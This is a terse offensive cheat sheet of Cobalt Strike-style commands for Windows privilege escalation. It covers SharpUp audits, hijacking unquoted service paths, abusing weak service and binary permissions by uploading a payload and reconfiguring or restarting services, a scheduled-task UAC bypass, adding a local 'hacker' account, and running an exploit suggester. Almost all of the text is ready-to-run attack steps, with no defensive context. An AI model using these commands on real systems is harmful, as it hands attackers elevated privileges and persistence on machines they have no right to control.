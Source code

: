 ### SharpUp (https://github.com/GhostPack/SharpUp)
```
execute-assembly /root/SharpUp.exe audit
execute-assembly /root/SharpUp.exe audit UnquotedServicePath
execute-assembly /root/SharpUp.exe audit ModifiableServices
execute-assembly /root/SharpUp.exe audit ModifiableServiceBinaries
```

### Unquoted Service Paths
```
run wmic service get name,pathname
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl
upload C:\Payloads\tcp-local_x64.svc.exe "C:\Program Files\Vulnerable Services\Service.exe"
run sc stop VulnService1
run sc start VulnService1
run sc query VulnService1
```

### Weak Service Permissions
https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/
```
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceAcl -Name VulnService2 | select -expand Access
run sc qc VulnService2
upload C:\Payloads\tcp-local_x64.svc.exe C:\Temp\tcp-local_x64.svc.exe
run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
```

### Weak Service Binary Permissions
```
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl
run sc stop VulnService3
upload C:\Payloads\tcp-local_x64.svc.exe "C:\Program Files\Vulnerable Services\Service 3.exe"
run sc start VulnService3
```

### UAC Bypasses
```
run net user hacker Passw0rd! /add
run whoami /groups
elevate uac-schtasks tcp-local
```

### Local Exploit Suggester
```
systeminfo > system.info
pip2 install xlrd==1.1.0
./windows-exploit-suggester.py -d 2023-01-21-mssb.xls -i system.info
```
